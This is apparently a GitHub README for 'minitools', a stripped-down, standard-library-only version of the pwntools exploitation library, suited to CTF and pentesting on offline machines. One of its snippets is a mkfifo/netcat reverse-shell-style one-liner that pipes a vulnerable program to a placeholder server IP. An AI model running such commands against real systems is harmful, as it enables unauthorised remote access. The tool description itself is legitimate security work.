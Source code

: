 # minitools
A minimal version of pwntools that only uses the standard library


# PLEASE DON'T USE THIS IF YOU DON'T HAVE TO!!!
I'f you've found this repository, I imagine it's because you want to use pwntools on a machine that has limited or no external internet access.
This repository *can* work as a solution, but treat it as a final option-- this only contains the code for process communication and packing. No ELF parsing, no ROP generation etc etc.

If you can connect to the machine over SSH, you're in luck. Ignore this repository:
```python
conn = ssh('blah', 'server.com', password='password')
p = conn.process("/home/blah/pwn.elf") # attack a local process
p = conn.remote("172.16.45.9",9001) # attack a remote server (through the connection)
# continue exploit as normal
```
If SSH is disabled, you can try setting up a SOCKS proxy (if you need to attack an internal server):
```python
context.proxy = (2,'172.16.45.9',1081) # 2 for SOCKS5, 1 for SOCKS4
# remote() will now connect through the proxy
```
Or, in extreme cases, you can send the vulnerable program over reverse-shell style:
```python
# on your solve script
s = server(8888)
info("Waiting for connection on port 8888...")
p = s.next_connection() 
# continue exploit as normal
```
```bash
# on the internal machine
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|./vulnerable_program 2>&1|nc <your-server-ip> 8888 >/tmp/f
```

If none of those work, or you need this for some other reason, then you can try my terrible solution.

# Usage
You can download the maximally-compressed `.zip` from the 'Releases' tab, then use it like so:
```python
import sys
sys.path.insert(0, 'minitools.zip')
from minitools import *
```
Minitools includes:
- Most of `remote()` and `process()` (minus uncommon functions like `recvline_regex`)
- Common packing functions (`u64`, `u32`, `p64`, `p32`, `flat` should also work)
- `cyclic()` and `cyclic_find()`
- A mediocre implementation of logging
Minitools does not include:
- ELF parsing (as it requires pyelftools)
- ROP chain generation (as it requires capstone)
- Format string payload generation (however I might add it later)
- Argument parsing (see above)
